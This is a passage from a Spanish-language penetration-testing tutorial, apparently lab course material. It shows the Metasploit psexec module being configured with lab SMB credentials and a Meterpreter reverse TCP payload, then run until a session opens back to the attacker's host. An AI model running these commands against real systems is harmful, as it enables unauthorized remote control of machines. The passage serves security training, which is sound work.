 ```bash
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Esta es una área donde Metasploit brilla en términos de facilidad de uso. En la salida de las opciones del módulo, vemos varias opciones y configuraciones con una descripción de lo que significa cada configuración. No usaremos `SERVICE_DESCRIPTION`, `SERVICE_DISPLAY_NAME` y `SERVICE_NAME` en esta sección. Nota cómo este exploit particular usará una conexión reverse TCP shell utilizando `Meterpreter`. Una shell de Meterpreter nos da mucha más funcionalidad que una shell TCP inversa cruda, como establecimos en las secciones anteriores de este módulo. Es el payload predeterminado que se usa en Metasploit.

Usaremos el comando `set` para configurar las siguientes configuraciones de la siguiente manera:

### Setting Options

```bash
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

Estas configuraciones asegurarán que nuestro payload se entregue al objetivo correcto (`RHOSTS`), se cargue en la share administrativa predeterminada (`ADMIN$`) utilizando credenciales (`SMBPass` & `SMBUser`), y luego inicie una conexión reverse shell con nuestra máquina local (`LHOST`).

Estas configuraciones serán específicas para la dirección IP en tu máquina de ataque y en la máquina objetivo, así como con las credenciales que puedas recopilar en un engagement. Podemos configurar el LHOST (host local) con la dirección IP del túnel VPN o el ID de la interfaz del túnel VPN.

### Exploits Away

```bash
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```